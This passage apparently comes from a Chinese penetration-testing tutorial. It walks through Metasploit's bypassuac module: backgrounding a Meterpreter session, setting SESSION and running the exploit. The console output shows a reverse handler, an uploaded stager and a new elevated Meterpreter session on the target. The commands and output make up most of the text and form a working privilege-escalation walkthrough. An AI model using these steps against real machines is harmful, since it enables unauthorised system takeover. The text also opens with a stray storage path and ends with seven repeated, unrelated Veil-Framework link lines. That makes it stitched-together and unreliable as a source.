 ```
meterpreter > background
[*] Backgrounding session 1… 
```

从输出的信息中，可以看到当前后台运行的会话编号是 1。该会话编号需要记住，在后面将会用到。

（2）查看会话详细信息。执行命令如下所示：

![208-01](img/00334.jpg)

从输出信息中可以看到该会话中，连接到目标系统的运行架构、计算机名及 IP 地址。

（3）使用 bypassuac 模块，并查看可配置的选项参数。执行命令如下所示：

![208-02](img/00335.jpg)

从输出信息中，可以看到模块选项中有一个可配置的选项参数 SESSION。该选项的值，就是当前后台运行的会话编号。

（4）设置 SESSION 选项参数。如下所示：

```
msf exploit(bypassuac) > set session 1
session => 1 
```

（5）启动渗透攻击。执行命令如下所示：

```
msf exploit(bypassuac) > exploit
[*] Started reverse handler on 192.168.6.103:4444
[*] UAC is Enabled, checking level…
[+] UAC is set to Default
[+] BypassUAC can bypass this setting, continuing…
[+] Part of Administrators group! Continuing…
[*] Uploaded the agent to the filesystem….
[*] Uploading the bypass UAC executable to the filesystem…
[*] Meterpreter stager executable 73802 bytes long being uploaded..
[*] Sending stage (769536 bytes) to 192.168.6.106
[*] Meterpreter session 2 opened (192.168.6.103:4444 -> 192.168.6.106:49206) at 2014-07-18 10:15:38 +0800
meterpreter > 
```


 [Web]: https://www.veil-framework.com | [Twitter]: @VeilFramework
 [Web]: https://www.veil-framework.com/ | [Twitter]: @VeilFramework
 [Web]: https://www.veil-framework.com/ | [Twitter]: @VeilFramework
 [Web]: https://www.veil-framework.com/ | [Twitter]: @VeilFramework
 [Web]: https://www.veil-framework.com/ | [Twitter]: @VeilFramework
 [Web]: https://www.veil-framework.com/ | [Twitter]: @VeilFramework
 [Web]: https://www.veil-framework.com/ | [Twitter]: @VeilFramework